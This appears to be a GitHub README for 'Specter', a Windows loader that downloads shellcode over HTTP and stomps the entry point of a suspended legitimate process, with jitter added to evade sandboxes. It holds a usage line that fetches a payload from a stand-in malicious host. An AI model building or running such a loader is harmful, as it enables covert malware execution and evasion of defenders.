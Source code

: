 # Specter

_Specter_ is a stealthy entry point stomping shellcode loader for Windows. By overwriting the entry point of a newly created, suspended process, Specter enables covert execution of arbitrary shellcode directly at process startup.

## Features

- **Entry Point Stomping:**  
  Overwrites the entry point of the target process with downloaded shellcode, making execution blend seamlessly with legitimate process launch.

- **Dynamic Shellcode Download:**  
  Fetches shellcode on-the-fly from a specified HTTP(S) URL.

- **PEB & NT Headers Parsing:**  
  Locates the entry point of the target process using native structures for precise patching.

- **Jitter Function:**  
  Adds random sleep intervals to evade simple behavioral detection and slow automated sandboxes.

- **Minimal & Portable:**  
  Pure C with minimal dependencies; no extra libraries beyond Windows API and WinINet.

## How It Works

1. **Download Shellcode:**  
   Specter grabs shellcode from a user-provided URL using WinINet.

2. **Create Suspended Process:**  
   A legitimate process (e.g., `notepad.exe`) is launched in suspended mode.

3. **Discover Entry Point:**  
   The code reads the Process Environment Block (PEB) to find the base image address, then parses the PE headers to locate the entry point.

4. **Overwrite Entry Point:**  
   The shellcode is written directly to the entry point, replacing the original instructions.

5. **Resume Execution:**  
   The process is resumed; execution begins at the shellcode, masquerading as normal process startup.

## Usage

```bash
Specter.exe <process_path> <shellcode_url>
```

- `<process_path>`: Full path to the target executable (e.g., `C:\Windows\System32\notepad.exe`)
- `<shellcode_url>`: Direct HTTP(S) URL pointing to the raw shellcode payload

**Example:**
```bash
Specter.exe C:\Windows\System32\notepad.exe http://shellcode.mal/shellcode.bin
```

## Code Highlights

- **Entry Point Stomping:**  
  Uses native Windows structures to identify and overwrite the real process entry point.

- **Anti-Analysis:**  
  Random jitter via the `Jitter()` function introduces unpredictable delays.

- **WinINet Download:**  
  Remote shellcode is fetched in-memory, supporting dynamic payload delivery.

## Requirements

- Windows (x64 recommended)
- Visual Studio or MinGW for compilation
- Network access for payload download

## Disclaimer

This project is provided for educational and authorized testing purposes only.  
**Do not use Specter on systems without explicit permission. Unauthorized use is illegal and unethical.**

## License

[MIT License](LICENSE)

---

**Specter** — Haunt the entry point.
